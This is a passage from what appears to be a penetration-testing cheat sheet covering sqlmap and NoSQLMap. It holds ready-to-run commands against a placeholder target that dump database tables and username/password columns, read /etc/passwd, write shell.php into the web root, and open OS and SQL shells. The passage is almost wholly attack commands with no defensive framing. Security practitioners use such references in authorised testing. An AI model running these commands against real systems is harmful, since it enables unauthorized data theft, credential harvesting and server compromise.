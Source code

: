 **Database Enumeration:**
```bash
# List databases
sqlmap -u "http://target.com/page.php?id=1" --dbs

# List tables in specific database
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables

# List columns in specific table
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns

# Dump table data
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --dump

# Dump specific columns
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users -C username,password --dump
```

**Advanced SQLMap Features:**
```bash
# Batch mode (non-interactive)
sqlmap -u "http://target.com/page.php?id=1" --batch

# Use proxy
sqlmap -u "http://target.com/page.php?id=1" --proxy="http://127.0.0.1:8080"

# Custom User-Agent
sqlmap -u "http://target.com/page.php?id=1" --user-agent="Custom Agent"

# Cookie-based injection
sqlmap -u "http://target.com/page.php" --cookie="id=1" -p id

# File operations
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd"
sqlmap -u "http://target.com/page.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"

# OS shell
sqlmap -u "http://target.com/page.php?id=1" --os-shell

# SQL shell
sqlmap -u "http://target.com/page.php?id=1" --sql-shell
```

#### NoSQLMap
Tool for NoSQL injection testing.

```bash
# Install NoSQLMap
git clone https://github.com/codingo/NoSQLMap.git
cd NoSQLMap
python nosqlmap.py

# Basic usage
python nosqlmap.py -t http://target.com/login -p username,password

# JSON injection
python nosqlmap.py -t http://target.com/api/login -p json --json
```
